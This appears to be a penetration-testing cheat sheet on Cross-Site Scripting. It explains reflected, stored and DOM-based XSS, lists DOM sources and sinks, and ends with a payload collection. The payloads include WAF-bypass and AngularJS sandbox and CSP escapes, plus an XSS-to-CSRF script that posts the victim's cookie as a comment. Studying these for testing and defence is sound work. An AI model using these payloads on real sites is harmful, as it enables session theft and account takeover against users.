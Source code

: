 # Cross-Site Scripting

Cross-Site Scripting is all about getting malicious javascript to execute. This allows an attacker to do basically anything on the client-side of the targeted user. A basic test to check if XSS is working, is by invoking the `alert(1)` function. Or use `alert(document.domain)` to show what domain the javascript is executing on. 

An attacker is then ablo to
- Impersonate or masquerade as the victim user
- Carry out any action that the user is able to perform
- Read any data that the user is able to access
- Capture the user's login credentials
- Perform virtual defacement of the web site
- Inject trojan functionality into the web site

## Reflected XSS
User input is immediatly reflected in the response in an unsafe way that allows for malicious javascript to execute. For example in a search feature it says "Results for '\<script>alert(1)\</script>'".

1. Test every entry point, input parameters, URL file path, http headers, etc
2. Submit random alphanumeric values, and check if they are reflected
3. Determine the reflection context, inbetween tags, in javascript string, etc
4. Test different payloads, [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. Test the attack in browser

## Stored XSS
Inputted data is later used by the application in an unsafe way that allows for malicious javascript to execute. For example in a comment feature "Comment: \<script>alert(1)\</script>".

1. Try to find connections between entry points (input parameters, URL file path, http headers, etc) and exit points (all http responses that are returned to a user in any situation)
2. Do this by submitting specific values into all entry points, and monitoring if any response contains any of those values
3. Determine the context, inbetween tags, in javascript string, etc
4. Test different payloads, [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. Test the attack in browser

## DOM-based XSS
Client-side javascript processes data in an unsafe way, usually by writing the data back to the [DOM](https://en.wikipedia.org/wiki/Document_Object_Model). For example, javascript reads a value from an input field and writes it back to an HTML element.

You need a source, e.g.:
```js
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location.search
location.hash
document.cookie
document.referrer
```

And a sink in the javascript code, e.g.: 
```js
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
eval()
```

Or a sink in third-party libraries/frameworks, e.g. [jQuery](https://jquery.com/) (sink: `$(xss)`), [AngularJS](https://angularjs.org/) (sink: `{{xss}}`), etc

To find what sources and sinks work, input random strings, and use developer tools to inspect the HTML, or use a javascript debugger. This task can be quite tedious.




## Proof of Concepts

Take a look at this amazing [Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) from portswigger.

### In Attribute String
```html
"><script>alert(1)</script>
```
```html
" autofocus onfocus=alert(1) x="
```
```html
<a href="javascript:alert(1)">
```

### In Javascript String
```html
</script><img src=1 onerror=alert(1)>
```
```js
'-alert(1)-'
```
```js
';alert(1)//
```
```js
\';alert(1)//
```
```html
&apos;-alert(1)-&apos;
```

### Blocked characters | WAF
```html
onerror=alert;throw 1
```
```html
<script>{onerror=eval}throw'=alert\x281\x29'</script>
```
```html
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```

### Template Literal
```js
${alert(1)}
```

### AngularJS | Sandboxed | CSP
```js
'a'.constructor.prototype.charAt=[].join
$eval('x=alert(1)')
```
```js
// fromCharCode() translates to: x=alert(1)
toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
```js
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
// Or use array.map() to hide from the CSP:
[1].map(alert)
```

### XSS->CSRF
```html
<script>
window.addEventListener('DOMContentLoaded', function(){

var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 3);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'foo@bar.com');
data.append('website', 'http://foo.bar');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```